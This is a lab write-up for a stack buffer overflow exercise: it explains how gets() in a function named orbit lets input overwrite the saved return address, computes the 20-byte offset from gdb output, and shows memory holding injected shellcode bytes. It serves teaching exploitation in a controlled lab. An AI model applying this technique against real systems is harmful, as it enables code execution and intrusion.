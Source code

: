 # 01 - Vega Writeup

## Main Idea

The code is vulnerable because `gets(buf)` does not check the length of the input from the user. So we can inject the SHELLCODE right after the return address, and overwrite the return address with the address of the shellcode.  

## Magic Numbers

The address of buffer is `0xffffd698`, the RIP is `0xffffd6ac`, so the location of RIP is 20 bytes away from the start of the buffer (0xffffd6ac - 0xffffd698).

``` C++
(gdb) x/16x buf
0xffffd698:  0x00000000   0x00000000   0x00000000   0x00000000
0xffffd6a8:  0xffffd6b8   0x08049208   0x00000001   0x080491fd   
0xffffd6b8:  0xffffd73c   0x080493d6   0x00000001   0xffffd734   
0xffffd6c8:  0xffffd73c   0x0804a000   0x00000000   0x00000000
(gdb) i f
Stack level 0, frame at 0xffffd6b0:
 eip = 0x80491eb in orbit (orbit.c:5); saved eip = 0x8049208
 called by frame at 0xffffd6c0
 source language c.
 Arglist at 0xffffd6a8, args:
 Locals at 0xffffd6a8, Previous frame's sp is 0xffffd6b0
 Saved registers:
  ebp at 0xffffd6a8, eip at 0xffffd6ac
```

## Exploit Structure

Here is the stack diagram.

The exploit has three parts:

1. Write 20 dummy characters to overwrite `buf`, the compiler padding, and the sfp.
2. Overwrite the rip with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with `0xffffd6b0` (`0xffffd6ac + 4`).
3. Finally, insert the shellcode directly after the rip.

This causes the `orbit` function to start executing the shellcode at address `0xffffd6b0` when it returns.

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/16x buf
0xffffd698:  0x41414141   0x41414141   0x41414141   0x41414141
0xffffd6a8:  0x41414141   0xffffd6b0   0xcd58326a   0x89c38980
0xffffd6b8:  0x58476ac1   0xc03180cd   0x692d6850   0xe2896969
0xffffd6c8:  0x6d2b6850   0xe1896d6d   0x2f2f6850   0x2f686873
```
